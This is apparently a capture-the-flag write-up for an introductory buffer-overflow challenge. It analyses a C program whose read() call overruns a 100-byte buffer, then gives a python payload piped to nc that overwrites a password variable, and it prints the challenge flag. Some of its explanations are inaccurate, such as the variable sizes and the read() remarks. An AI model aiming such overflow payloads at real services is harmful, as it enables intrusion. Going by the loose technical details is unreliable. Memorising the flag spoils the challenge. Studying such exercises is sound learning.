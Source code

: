 This is the first chanllenge in the pwnables category:

The challenge is asking you to connect to `nc pwnable.hackable.ca 9993` that runs an executable that asks you to `Enter your name`, and based on your answer it should give you the correct flag.

The sourcecode of the executable is given in the challenge, (buffer_overflow1.c)


# Solution

1. Analyzing code
2. Compiling the code
3. Crafting our buffer overflow input

## 1. Analyzing code
Looking at the sourcecode we notice that this is an easy buffer overflow example.

1. It creates an integer variable `password` and saves in it the hex value `0xcafebabe`. It also creates a string variable `your_name` of size 100. 

```
int password = 0xcafebabe;
char your_name[100] = {0};
```
2. It prints `Enter your name` and reads the input into the variable `your_name`
```
printf("Enter your name\n");
fflush(stdout);
read(0, your_name, 0x100);
```
3. Then it compares the variable `password` to the value `0xdeadbeef` and if correct it will print the FLAG if not it asks to try again and exits.
```
if(password == 0xdeadbeef) {
    puts("GOOD WORK!\n");
    puts("FLAG{**********************}");
}
else {
    puts("Nice try :( Your name didn't meet my expectations\n");
}
```

>if we make some research about the `read` function in C we find that read() don't work with strings, but with buffers, and as such it doesn't need to know their contents, just their size. As long as it only uses the buffer, there won't be any overrun problems. The problem may come if you later treat that buffer as a string. In that case, you will most probably overrun it.


we also notice that in the `read` function it reads `0x100` bytes which is `256` bytes, however the variable `your_name` is only 100 bytes long. This means that the `read` function can lead to a buffer overflow vulnerability.

## 2. Compiling the code
`gcc buffer_overflow1.c -o buffer_overflow1.exe -fno-stack-protector -z execstack -no-pie`

we use `-fno-stack-protector -z execstack -no-pie` to ensure no stack protection is running so our exploit can run.

## 3. crafting our buffer overflow input
To solve this challenge we need to change the value of the password variable to `0xdeadbeef` to do this we need to use the `read` function to overwrite the stack space of the variable `password`.

The stack has the variable `password` with length 8 bytes on top of it (remember: stack addresses are flipped) the `your_name` variable with length of 100 bytes. So we need to enter 100 bytes then our new password value of `0xdeadbeef`.

```
+++++++++++++++++++++++++++++++++
+           +                   +
+           +                   +
+    100    +    your_name      +
+   bytes   +                   +
+           +                   +
+           +                   +
+++++++++++++++++++++++++++++++++
+    8      +    password       +
+   bytes   +                   +
+++++++++++++++++++++++++++++++++
```

>Note that: the variable `passowrd` is in hex and we read it in Little Indian from right to left.


To craft our malformed input, we use python as follows:
`print('A'*100+'\xef\xbe\xad\xde')`
`>>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�
`
>note the special chars at the end representing the hex value `0xdeadbeef`

By entering this value into the program, it gives the FLAG.

# One line command:
`python -c "print('A'*100+'\xef\xbe\xad\xde')" | nc pwnable.hackable.ca 9993`

#FLAG:
```FLAG{0v3rfl0w5_ar3_fun}```

